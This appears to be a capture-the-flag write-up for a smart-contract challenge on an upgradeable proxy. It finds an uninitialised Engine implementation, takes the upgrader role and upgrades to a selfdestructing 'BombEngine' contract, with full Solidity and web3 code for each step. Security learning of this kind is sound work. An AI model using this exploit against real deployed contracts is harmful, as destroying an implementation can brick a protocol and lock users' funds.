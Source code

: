 After drawing the diagram, I had many unanswered questions the most important one did we `initialize` the engine contract or not !
I really know where the address of the *Engine* contract is in storage so I can check that !

```js
const engineAddress = await web3.eth.getStorageAt(instance,'0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc');

// let's check the value
await web3.eth.call({to:engineAddress,from:player,data:web3.eth.abi.encodeFunctionSignature('upgrader()')})
// returned 0x000000
// the initialize() wasn't called and that's our exploit !
```

### Exploitation

1. initialize the *Engine* contract so we become the **upgrader**.
2. upgrade our *Engine* contract to our bomb contract ( which will selfdestruct )
3. call selfdestruct, the call will be done through *delegateCall* so the actual *Engine* will be destructed !

our evil contract

```js
contract BombEngine { 
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    function destruct() public {
        selfdestruct( payable ( 0x84e7a3679A82C2766Ff8382862ab883FF9460307));
    }
}
```

```js
const destructData= web3.eth.abi.encodeFunctionSignature('destruct()');

const data= web3.eth.abi.encodeFunctionCall({
    name: 'upgradeToAndCall',
    type: 'function',
    inputs: [{
        type: 'address',
        name: 'newImplementation'
    },{
        type: 'bytes',
        name: 'data'
    }]
}, [bombEngineAddress,destructData]);

await web3.eth.sendTransaction({to:engineAddress,from:player,data:data})

// You can do a random call to the Engine contract it will revert because it's gone !
```

Challenge solved ✅

